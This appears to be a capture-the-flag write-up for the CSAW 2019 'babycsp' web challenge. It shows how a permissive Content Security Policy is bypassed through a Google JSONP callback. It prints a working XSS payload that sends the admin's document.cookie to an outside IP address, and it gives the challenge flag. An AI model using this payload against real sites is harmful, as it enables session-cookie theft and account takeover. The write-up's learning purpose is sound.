 # babycsp

- Category: web
- Points: 50

## Challenge

### Description
> I heard CSP is all the rage now. It's supposed to fix all the XSS, kill all of the confused deputies, and cure cancer? The flag is in the cookies 

### Files

- Website: `http://web.chal.csaw.io:1000/`

### Website

We are given the following page: 

![babycsp website](./website.png)


## Solution

Given the name of the challenge and the website, we know this challenge is a circumvention of CSP (Content Security Policy) to run XSS to steal the admin's cookies. As I haven't heard of CSP or HttpOnly cookies/cookie stealing before this challenge, it was a lot of fun and definitely a learning experience.

> CSP prevents loading JavaScript and other resources from domains that aren't specified. This means it's tough to get XSS or load malicious scripts.

When you input `<script>alert(1)</script>` or other XSS payloads, you get the following alert in the JavaScript console.

![CSP Console Alert](./cspalert.png)

> The developers tools console is very useful, especially for challenges like this.

So, the CSP is as follows:

```
default-src 'self'; script-src 'self' *.google.com; connect-src *
```

This looks 'secure' on paper, however evaluating it with `https://csp-evaluator.withgoogle.com/` shows us the following:

![1568649748521](/home/shane/Desktop/ctf_writeups/CSAWCTF2019/babycsp/1568649748521.png)

The thing that stands out the most here is the possibility of _JSONP endpoints_ that would allow us to bypass CSP.

Researching for a bit gives us `https://github.com/zigoo0/JSONBee`, which a bunch of payloads that abuse this. A bit of modification of a payload gives us `<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>`, where we can input malicious JavaScript in the callback field.

Since the cookies are HttpOnly, we can't write to a file or anything like that, we have to set up a public facing server (I used AWS Free Tier) and use the "Report to Admin" button to steal his cookie.

![1568650225806](/home/shane/Desktop/ctf_writeups/CSAWCTF2019/babycsp/1568650225806.png)

>  HttpOnly cookies make XSS cookie stealing more difficult by not allowing client-side scripts to print the cookies.

This XSS payload was functional in redirecting the page and stealing the cookies of the admin:

```
<script src='https://accounts.google.com/o/oauth2/revoke?callback=
window.location="http://13.58.84.168/"["concat"](document.cookie);
'></script>
```

So, running this payload and clicking `Report to admin`, we check our `access_log` for `httpd` on our EC2 instance and find the flag:

![1568650393624](/home/shane/Desktop/ctf_writeups/CSAWCTF2019/babycsp/1568650393624.png)

### Flag

`flag{csp_will_solve_EVERYTHING}`